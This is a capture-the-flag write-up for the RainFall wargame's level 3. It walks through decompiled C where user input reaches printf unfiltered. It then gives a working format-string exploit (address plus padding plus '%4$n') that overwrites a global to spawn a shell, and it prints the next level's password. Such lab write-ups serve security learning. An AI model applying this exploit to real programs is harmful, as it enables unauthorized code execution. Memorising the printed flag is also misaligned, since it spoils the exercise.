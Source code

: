 ## Step 1: Static & Dynamic Analysis

```c
080484a4    uint32_t v()
080484a4    {
080484a4        void var_20c;
080484c7        fgets(&var_20c, 512, stdin);
080484d5        printf(&var_20c);
080484da        uint32_t m_1 = m;
080484da        
080484e2        if (m_1 != 64)
08048519            return m_1;
08048519        
08048507        fwrite("Wait what?!\n", 1, 12, stdout);
08048513        return system("/bin/sh");
080484a4    }
```

```c
0804851a    int32_t main(int32_t argc, char** argv, char** envp)
0804851a    {
0804851a        return v();
0804851a    }
```

```
(gdb) info variables
All defined variables:

Non-debugging symbols:
0x080485f8  _fp_hw
0x080485fc  _IO_stdin_used
0x08048734  __FRAME_END__
...
0x08049884  completed.6159
0x08049888  dtor_idx.6161
0x0804988c  m
(gdb)
```

### Explanation
`v()` reads user input into a buffer (`var_20c`) using `fgets()` and then passes it directly to `printf()`.
This introduces a `format string vulnerability` because `printf()` interprets format specifiers if the input contains them.
The variable `m` (located at `0x0804988c`) is checked. If it equals `64`, the program executes a shell using `system("/bin/sh")`.
If not, it simply returns the value of `m`.

The `printf()` call in `v()` allowing us to write `64` to the memory address of `m` (`0x0804988c`).
1. Begin the payload with the address of `m` (`0x0804988c`) in little-endian format: `\x8c\x98\x04\x08`.
2. Pad the payload with `60` characters to ensure exactly `64` characters are written before `%n`.
3. Use `%4$n` to specify that the 4th argument on the stack (our target address) should receive the value.


## Step 2: Exploit the Binary

```bash
level3@RainFall:~$ python -c 'print "\x08\x04\x98\x8c"[::-1] + ("A" * 60) + "%4$n"' > /tmp/exploit
level3@RainFall:~$ cat /tmp/exploit - | ./level3
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
Wait what?!
% cd ../level4
% cat .pass
b209ea91ad69ef36f2cf0fcbbc24c739fd10464cf545b20bea8572ebdc3c36fa
```
